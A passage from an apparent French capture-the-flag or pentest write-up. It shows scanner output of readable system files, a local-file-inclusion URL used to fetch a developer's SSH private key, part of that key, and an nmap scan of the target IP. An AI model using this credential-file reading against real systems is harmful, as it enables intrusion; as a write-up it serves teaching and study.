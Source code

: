 ```
[+] Found '/etc/security/pam_env.conf' (*NIX/conf).
[+] Found '/etc/security/time.conf' (*NIX/conf).
[+] Found '/etc/ssh/sshd_config' (*NIX/conf).
[+] Found '/etc/adduser.conf' (*NIX/conf).
[+] Found '/etc/ca-certificates.conf' (*NIX/conf).
[+] Found '/etc/debconf.conf' (*NIX/conf).
[+] Found '/etc/hdparm.conf' (*NIX/conf).
[+] Found '/etc/ltrace.conf' (*NIX/conf).
[+] Found '/etc/manpath.config' (*NIX/conf).
[+] Found '/usr/share/adduser/adduser.conf' (*NIX/conf).
[+] Found '/etc/passwd' (*NIX/other).
[+] Found '/home/dev0/.bashrc' (*NIX/*NIX User File/conf).
[+] Found '/home/dev1/.bashrc' (*NIX/*NIX User File/conf).
[+] Found '/home/dev1/.ssh/id_rsa' (*NIX/*NIX User File/conf).
[+] Found '/etc/mtab' (*NIX/other).
[+] Found '/etc/login.defs' (*NIX/other).
[+] Found '/boot/grub/grub.cfg' (*NIX/other).
[+] Found '/boot/grub/menu.lst' (*NIX/other).
  
[i] File search complete.
```

Et là, stupeur, un développeur a uploadé sa clé privée sur le serveur. Ni une ni deux, on la récupère.

* http://pramafil.com/cgu/?v=/home/dev1/.ssh/id_rsa

Bingo, on avance.

```
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAs9jEXsYN/poSQoXJ56L8Rt+bokwANQCzwwUhsC6k1iiBZMkA
NHJT9P1vjN+4c4Y7AZks/dNL5orLqobzVnKO/kCeCz4fEqlFdvBtwp0hs+mteSB6
euH18O6qrIROTmY3tYFr7yU2xK1QRodV/Wx9BCXxTi0PfY6SDSpSufn2O1a6ErFo
K8uFEQ2yeHpEwfFc2Biz6NSOHOzJKB2wRbo8omYqkefww2JxWiz0cq5hF9j/yn8g
2ULUPjhfVGDYt0MIV9PgqxxrBKdvGKb4mNnLVxX8oR44lUxZk2Odg3cjtGS/my+l
Y1U5Nf8hyo8aHknwMRt7utapMXoSWcRU0AuhRwIDAQABAoIBAH88Iykdmzb9j1+K
```

On vérifie que le port 22 est bien ouvert sur le serveur de pramafil (IP:151.80.230.58):

```
nmap 151.80.230.58
Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-03 17:14 CEST
Nmap scan report for 151.80.230.58
Host is up (0.017s latency).
Not shown: 995 filtered ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
443/tcp  open  https
4242/tcp open  vrml-multi-use
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 21.31 seconds
```
